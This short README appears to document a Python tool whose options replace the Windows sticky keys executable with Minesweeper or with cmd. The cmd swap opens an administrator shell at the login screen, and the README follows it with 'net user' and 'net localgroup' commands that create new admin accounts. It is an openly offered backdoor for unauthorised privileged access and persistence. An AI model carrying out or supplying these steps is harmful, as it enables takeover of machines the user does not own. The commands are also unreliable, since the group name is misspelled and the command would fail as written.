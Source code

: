 # [Sticky keys](./StickyKeys.py) exploits
- `./pld.py --sticky-mines` (Sticky keys to minesweeper)
	- This will change the sticky keys executable to Minesweeper, allowing you to summon minesweeper at a spam of the left shift
- `./pld.py --sticky-do` (Restore sticky keys to default)
	- This will restore the sticky keys executable to the default
- `./pld.py --sticky-keys` (Change sticky keys to CMD)
	- This will change the sticky keys executable to cmd, allowing access to the admin shell when sticky keys is spammed at the login screen. 
		- This allows you to create new admin users, and freely use your PLD:
		  ```sh
		  net user /add <user> <paassword>
		  net localgroup Admintsrators /add <user>
		  ```
